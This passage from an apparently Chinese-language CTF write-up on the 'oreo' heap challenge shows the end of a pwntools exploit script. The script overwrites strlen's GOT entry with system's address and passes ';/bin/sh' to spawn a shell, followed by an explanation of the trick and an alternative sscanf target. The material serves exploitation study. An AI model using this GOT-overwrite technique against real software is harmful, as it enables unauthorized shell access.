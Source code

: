 ```python
    order_refles()

    show_refles()
    # Overwrite the strlen_got
    name = 'fuck U~'
    desc = p32(strlen_got)
    add_refles(name, desc)

    leave_message(p32(system_addr)+ ";/bin/sh\x00")

    sh.interactive()


main()
```

&emsp;&emsp;这里有个点值得注意，我们最后一步覆盖system_got的时候可以直接传`p32(system_addr) + ";/bin/sh\x00"`.因为,在strlen被覆盖之后，会执行`addEnd()`函数，相当于`strlen(p32(system_addr) + ";/bin/sh\x00".)`即`system(p32(system_addr)) 和 system("/bin/sh\x00")`这样就可以快速getshell。当然，也可以覆盖其他函数的got表，比如sscanf，然后在输入的action的时候输入`/bin/sh`也可getshell。

![shell](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/oreo.png?raw=true)
